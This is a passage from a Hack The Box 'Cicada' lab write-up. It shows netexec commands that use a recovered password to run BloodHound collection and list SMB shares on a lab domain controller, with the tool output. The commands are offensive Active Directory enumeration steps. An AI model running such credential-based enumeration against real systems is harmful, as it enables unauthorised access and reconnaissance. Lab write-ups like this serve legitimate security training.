 
And we got the following working credentials: `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`
we `cannot` actually login via `evil-winrm`, so we keep enumerating 


We run `bloodhound` via `netexec`:

```
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/Cicada]
└─$ netexec ldap 10.10.11.35 -u "michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' --dns-server 10.10.11.35 --bloodhound --collection All
LDAP        10.10.11.35     389    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        Resolved collection methods: localadmin, dcom, container, acl, psremote, trusts, rdp, objectprops, session, group                                                                                                                                   
LDAP        10.10.11.35     389    CICADA-DC        Done in 00M 33S
LDAP        10.10.11.35     389    CICADA-DC        Compressing output into /home/glitch/.nxc/logs/CICADA-DC_10.10.11.35_2025-07-01_043833_bloodhound.zip                                                                                                                                               
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/Cicada]
└─$ cp /home/glitch/.nxc/logs/CICADA-DC_10.10.11.35_2025-07-01_043833_bloodhound.zip .

```


We didn't find anything useful in bloodhound, so we keep enumerating the smb's shares and users using our credentials:


`SMB shares`: 
```
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)                                                                                                                                           
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```
And we didn't find anything useful.

